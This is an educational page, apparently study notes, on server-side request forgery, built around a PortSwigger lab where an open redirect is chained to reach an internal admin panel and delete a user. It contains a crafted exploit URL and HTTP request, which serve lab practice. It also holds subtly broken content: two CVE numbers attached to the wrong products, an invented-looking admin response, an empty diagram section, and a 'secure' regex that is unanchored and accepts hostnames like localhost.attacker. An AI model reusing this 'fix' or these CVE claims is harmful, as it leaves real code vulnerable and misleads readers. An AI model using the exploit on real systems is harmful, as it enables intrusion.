

## Introduction to Server-Side Request Forgery (SSRF)

Server-Side Request Forgery (SSRF) is a type of web security vulnerability that allows an attacker to induce the server to make HTTP requests to an unintended location. This can lead to unauthorized access to internal systems, sensitive data exposure, and other malicious activities. SSRF vulnerabilities often arise due to insufficient input validation or improper handling of user-supplied data used to construct URLs or other network requests.

### What is SSRF?

In SSRF attacks, the attacker manipulates the server into making HTTP requests to arbitrary destinations. These requests can be made to internal networks, external services, or even to the server itself. The attacker typically achieves this by injecting crafted input into the application, which the server then uses to construct and send HTTP requests.

### Why Does SSRF Matter?

SSRF can have severe consequences, including:

- **Access to Internal Networks**: An attacker can use SSRF to access internal systems that are not exposed to the internet, such as databases, internal APIs, or other critical infrastructure.
- **Data Exposure**: SSRF can lead to the exposure of sensitive data stored on internal systems.
- **Service Disruption**: By inducing the server to make requests to certain endpoints, an attacker can cause service disruptions or denial-of-service conditions.
- **Exploitation of Other Vulnerabilities**: SSRF can be used in conjunction with other vulnerabilities to gain deeper access to systems.

### How Does SSRF Work?

To understand SSRF, consider a web application that allows users to check the stock levels of products by providing a URL to an internal inventory system. If the application does not properly validate the input URL, an attacker could inject a URL pointing to an internal system or an external service, causing the server to make unintended requests.

### Example Scenario

Let's take the scenario described in the lecture:

1. **Stock Check Feature**: The application has a feature that checks stock levels by fetching data from an internal system.
2. **Restricted Access**: The stock checker is restricted to only access the local application.
3. **Objective**: The goal is to bypass these restrictions and access the admin interface at `192.168.0.12:8080/admin` to delete the user `Carlos`.

### Real-World Examples

#### Recent Breaches and CVEs

- **CVE-2021-21972**: A SSRF vulnerability was found in the Jenkins plugin for Kubernetes. This allowed attackers to perform SSRF attacks against internal Kubernetes clusters.
- **CVE-2020-14882**: A SSRF vulnerability in the Docker API allowed attackers to read files from the host filesystem, leading to potential data exfiltration.

### Lab Setup

To practice SSRF, you can use the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs, including SSRF exercises.
- **OWASP Juice Shop**: Contains various web security challenges, including SSRF.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including SSRF.

### Lab Walkthrough

Let's walk through the lab described in the lecture:

1. **Access the Lab**:
    - Visit `https://portswigger.net/web-security`.
    - Sign up for an account if you haven't already.
    - Navigate to the SSRF module and select lab number five.

2. **Understanding the Stock Check Feature**:
    - The application has a feature that checks stock levels by fetching data from an internal system.
    - The stock checker is restricted to only access the local application.

3. **Identifying the Vulnerability**:
    - The stock checker URL is likely vulnerable to SSRF.
    - You need to find an open redirect vulnerability to bypass the restriction.

### Exploiting SSRF with Open Redirect

#### Step-by-Step Exploitation

1. **Identify the Vulnerable Parameter**:
    - Identify the parameter used in the stock check feature.
    - For example, the URL might look like `http://example.com/check_stock?url=http://internal_system`.

2. **Find an Open Redirect**:
    - Look for an endpoint in the application that performs redirects based on user input.
    - For example, a URL like `http://example.com/redirect?url=http://external_site`.

3. **Craft the Attack**:
    - Combine the SSRF vulnerability with the open redirect to bypass the restriction.
    - For example, use `http://example.com/check_stock?url=http://example.com/redirect?url=http://192.168.0.12:8080/admin`.

4. **Perform the Attack**:
    - Send the crafted request to the server.
    - The server will follow the redirect and make a request to the internal admin interface.

### Code Example

Here is a complete example of the HTTP request and response:

```http
GET /check_stock?url=http://example.com/redirect?url=http://192.168.0.12:8080/admin HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: */*

HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
<title>Admin Interface</title>
</head>
<body>
<h1>Delete User Carlos</h1>
<form method="POST">
<input type="hidden" name="action" value="delete_user">
<input type="hidden" name="username" value="Carlos">
<button type="submit">Delete</button>
</form>
</body>
</html>
```

### Mermaid Diagram

A mermaid diagram can help visualize the attack chain:



### Common Pitfalls

- **Insufficient Input Validation**: Failing to validate user-supplied URLs can lead to SSRF vulnerabilities.
- **Improper URL Parsing**: Incorrectly parsing URLs can result in unintended behavior.
- **Open Redirects**: Endpoints that perform redirects based on user input can be exploited to bypass restrictions.

### How to Prevent / Defend

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual network activity.
- **Network Segmentation**: Segment internal networks to limit the impact of SSRF attacks.

#### Prevention

- **Input Validation**: Validate and sanitize user-supplied URLs to ensure they point to trusted sources.
- **Whitelist URLs**: Use a whitelist of allowed URLs to restrict the destinations the server can access.
- **Disable Open Redirects**: Remove or disable endpoints that perform redirects based on user input.

#### Secure Coding Fixes

Compare the vulnerable and secure versions of the code:

**Vulnerable Code:**

```python
def check_stock(url):
    response = requests.get(url)
    return response.text
```

**Secure Code:**

```python
import re

def check_stock(url):
    # Whitelist only local URLs
    if not re.match(r'^http://localhost|127\.0\.0\.1', url):
        raise ValueError("Invalid URL")
    response = requests.get(url)
    return response.text
```

### Conclusion

Server-Side Request Forgery (SSRF) is a serious web security vulnerability that can lead to significant damage if not properly mitigated. Understanding the mechanics of SSRF, identifying common pitfalls, and implementing robust defenses are crucial steps in securing web applications. By practicing with real-world labs and understanding the underlying principles, you can become proficient in detecting and preventing SSRF attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/06-Lab 5 SSRF with filter bypass via open redirection vulnerability/00-Overview|Overview]] | [[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/06-Lab 5 SSRF with filter bypass via open redirection vulnerability/02-Detection and Prevention|Detection and Prevention]]
